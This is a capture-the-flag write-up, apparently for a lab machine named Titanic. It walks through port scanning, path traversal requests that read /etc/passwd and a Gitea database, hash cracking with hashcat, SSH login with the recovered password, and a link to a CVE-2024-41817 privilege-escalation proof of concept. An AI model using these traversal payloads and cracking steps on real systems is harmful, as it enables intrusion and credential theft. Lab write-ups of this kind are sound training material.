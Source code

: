# 🚢 Titanic

## 📝 Overview

The box involves **path traversal**, **SQLite database extraction**, **hash cracking**, and a **privilege escalation via CVE-2024-41817**.

## 🔍 Enumeration

Nmap:
```sh
nmap -T3 10.10.11.55
nmap -Pn -T3 10.10.11.55
nmap -Pn -sS -p- -T4 10.10.11.55
nmap -sC -sV -p 22,80 10.10.11.55
```
Add the host to /etc/hosts:
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
Directory Bruteforce:
```sh
gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
```

## 🕵️ Discovery
Path Traversal, tested LFI via the ticket parameter:
```sh
http://titanic.htb/download?ticket=../../../../etc/passwd
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/conf/app.ini
```
Found a new vhost: dev.titanic.htb:
```sh
http://titanic.htb/download?ticket=../../../../etc/hosts => dev.titanic.htb
```
Extracted the Gitea SQLite database:
```sh
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db
```

Meanwhile, on the dev.titanic.htb virtual host, we find a Gitea instance hosting two repositories: docker-config and flask-app

## 💾 Database Analysis
Open the database:
```sh
sqlite3 gitea.db:
.tables
SELECT id, name, lower_name, email, passwd FROM user;
SELECT name, passwd, salt FROM user;
```
Convert salts & hashes for base64:
```sh
echo -n "HASH/SALT" | xxd -r -p | base64
```
Crack using hashcat:
```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt --user
```
Found credentials:
```
developer : 25282528
```

<!--
john --list=formats | tr ',' '\n' | grep PBKDF2 | grep SHA256
john --list=format-details --format=PBKDF2-HMAC-SHA256
-->

## 🔑 Access via SSH
```sh
ssh developer@titanic.htb
```

## 🧗 Privilege Escalation
While enumerating the system, found a vulnerable component exploitable via CVE-2024-41817:  
[CVE-2024-41817 PoC](https://github.com/Dxsk/CVE-2024-41817-poc)